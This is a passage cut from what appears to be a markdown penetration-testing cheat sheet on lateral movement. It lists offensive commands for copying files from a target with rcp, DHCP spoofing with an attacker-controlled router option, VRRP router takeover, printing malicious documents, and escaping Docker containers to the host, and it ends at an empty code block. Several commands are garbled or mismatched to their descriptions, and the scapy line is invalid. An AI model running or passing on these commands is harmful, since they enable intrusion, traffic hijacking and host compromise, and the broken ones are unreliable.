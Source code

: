 #### RCP
- **Copy files from the target machine using the remote copy (rcp) command:**
	```bash
	rcp <username>@<target_ip>:/path/to/file /local/destination
	```
  
# Lateral Movement via Non-Standard Protocols

#### Exploiting DHCP
- **Spoof DHCP Server:**
	```bash
	sudo dnsspoof -i eth0
	```
- **Inject Malicious DHCP Options:**
	```bash
	sudo dhcpstarv -i eth0 -o "option:router,<attacker_ip>"
	```

#### Exploiting VRRP (Virtual Router Redundancy Protocol)
- **Send VRRP Packets to Change Master Router:**
	```bash
	scapy send(IP(dst="224.0.0.18")/VRRP(prio=255))
	```

# Lateral Movement via Service Exploitation

####  Exploiting Printers for Lateral Movement
- **Enumerate Network Printers:**
	```bash
	lpstat -t
	```
- **Print a Malicious Document on a Remote Printer:**
	```bash
	lp -d <printer_name> /path/to/malicious_doc.pdf
	```

#### Using Docker for Lateral Movement
- **List Running Docker Containers on a Host:**
	```bash
	sudo docker ps -a
	```
- **Spawn an interactive shell within a running Docker container:**
	```bash
	sudo docker exec -it <container_id> /bin/bash
	```
- **Check if the container is running with elevated privileges (`privileged: true`):**
	```bash
	docker inspect <container_id>
	```
- **Escape from a Docker container to the host system if the container is running with elevated privileges:**
	```bash
	docker run --rm -v /:/mnt --privileged debian chroot /mnt bash
	```
- **Check if the Docker socket is world-writable:**
	```bash
	ls -l /var/run/docker.sock
	```
- **Use the Docker socket to mount the entire host filesystem into a container for lateral movement:**
	```bash
